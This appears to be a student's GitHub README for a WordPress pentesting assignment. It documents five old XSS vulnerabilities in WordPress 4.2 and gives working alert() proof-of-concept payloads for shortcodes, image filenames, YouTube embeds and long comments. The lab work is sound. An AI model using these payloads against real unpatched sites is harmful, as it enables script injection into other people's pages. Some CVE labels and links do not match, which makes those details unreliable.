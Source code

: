 # Cybersecurity-Week-7-and-8
# Project 7 - WordPress Pentesting

Time spent: **8** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2015-5714: Authenticated Shortcode Tags Cross-Site Scripting
  - [x] Summary: 
    Cross-site scripting (XSS) vulnerability in WordPress before 4.3.1 allows remote attackers to inject arbitrary web script or HTML by leveraging the mishandling of unclosed HTML elements during processing of shortcode tags.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.3.1
  - [x] GIF Walkthrough: 
    ![](Gif/1.gif)
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a >
    ```
    3. Navigate to the post and click go to the hyperlink
  - [x] Affected source code: 
    - [Link 1](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)
    - [Link 2](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2015-5714)
### 2. CVE 2015-5714: Authenticated Stored Cross-Site Scripting
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [x] GIF Walkthrough: 
    ![](Gif/2.gif)
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
    ```
    3. Navigate to the post and click go to the hyperlink
  - [x] Affected source code: 
    - [Link 1](https://wordpress.org/news/2015/07/wordpress-4-2-3/)
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622)
### 3. CVE 2017-9061: Authenticated Stored Cross-Site Scripting via Image Filename
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.6.1
  - [x] GIF Walkthrough:
    ![](Gif/3.gif)
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    filename<img src=a onerror=alert(1)>.png
    ```
    3. Navigate to the post and before loading the page, the code will be executed.
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7168)
### 4. CVE 2017-6817: Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [x] Summary: 
    In WordPress before 4.7.3 (wp-includes/embed.php), there is Authenticated Cross-Site Scripting (XSS) in YouTube URL Embeds.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [x] GIF Walkthrough: 
    ![](Gif/4.gif)
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Type this code
    ```html
    [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
    ```
    3. Navigate to the post the code will be executed when the page loads.
  - [x] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/419c8d97ce8df7d5004ee0b566bc5e095f0a6ca8)
    - [Link 2](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2017-6817)
### 5. CVE 2015-3440: Unauthenticated Stored Cross-Site Scripting
  - [x] Summary:
    Cross-site scripting (XSS) vulnerability in wp-includes/wp-db.php in WordPress before 4.2.1 allows remote attackers to inject arbitrary web script or HTML via a long comment that is improperly stored because of limitations on the MySQL TEXT data type.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: 
    ![](Gif/5.gif)
  - [x] Steps to recreate: 
    1. Create new post in WordPress
    2. Logout and type this code in the comment
    ```html
    <a title='x onmouseover=alert(unescape(/hello%20world/.source))style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA....[64 kb]...AAAAA'></a>
    ```
    3. It would execute the code.
  - [x] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

WPDistillery was showing `Not Found` page, so had to modify the `Permalink` settings in WordPress to load the pages and posts.

## License

    Copyright [2020] [Krushang Shah]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
